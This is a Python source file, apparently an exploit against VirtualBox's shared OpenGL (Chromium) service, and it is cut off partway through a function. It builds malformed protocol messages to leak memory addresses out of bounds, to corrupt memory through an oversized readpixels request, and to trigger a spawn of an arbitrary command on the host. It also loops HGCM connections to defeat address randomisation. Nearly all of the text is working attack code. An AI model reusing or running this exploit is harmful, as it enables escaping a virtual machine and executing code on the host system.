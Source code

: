 ```python
import sys, os
from struct import pack, unpack
sys.path.append(os.path.abspath(os.path.dirname(__file__)) + '/lib')
from chromium import *

def nop_msg():
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1)
        + "\x00\x00\x00" +chr(CR_NOP_OPCODE)
        + pack("<IIII", 0x41414141, 0x41414141, 0x41414141, 0x41414141)
        )
    return msg

def make_leak_msg(offset):
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1) #type, conn_id, numOpcodes
        + "\x00\x00\x00" +chr(CR_EXTEND_OPCODE) #opcode
        + pack("<I", offset) #packet_length
        + pack("<I", CR_GETATTRIBLOCATION_EXTEND_OPCODE) #sub opcode
        + pack("<I", 0x41424344)
        )
    return msg

def make_readpixels_msg(uiId, uiSize):#x, y, width, height, formata, ttype, pixels):
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1) #type, conn_id, numOpcodes
        + "\x00\x00\x00" +chr(CR_READPIXELS_OPCODE) #opcode
        + pack("<IIIIII", 0, 0, 0, 8, 0x35, 0) #x,y,w,h, format, type
        + pack("<IIIIIIII", 0,0,0,0,0x1ffffffd, 0, uiId, uiSize) # stride, align, skipR, skipPix, byteperrow, rowlen
        )
    return msg

def make_crSpawn_msg(cmd, argv):
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1) #type, conn_id, numOpcodes
        + "\x00\x00\x00" +chr(CR_BOUNDSINFOCR_OPCODE) #opcode
        + pack("<I", 1)
        + cmd.ljust(16, "\x00")
        + pack("<I", 0)
        + pack("<QQ", argv, 0) # argv : execute string, null
        )
    return msg

def leak_address(client):
    leak_success = False;
    while not leak_success:
    	for i in range(0, 10):
            leak_client = hgcm_connect("VBoxSharedCrOpenGL")
            hgcm_disconnect(leak_client)
        msg = make_leak_msg(0x100000000-0x9b8)
        result = crmsg(client, msg)
        if "\x7f\x00\x00" in result:
            leak = unpack('<Q', result[16:24])[0]
            if (leak%0x1000 == 0x170):
                leak_success = True
                break
    cr_server = leak - 0x4a70
    
    leak_success = False;
    while not leak_success:
        for i in range(0, 100):
            leak_client = hgcm_connect("VBoxSharedCrOpenGL")
```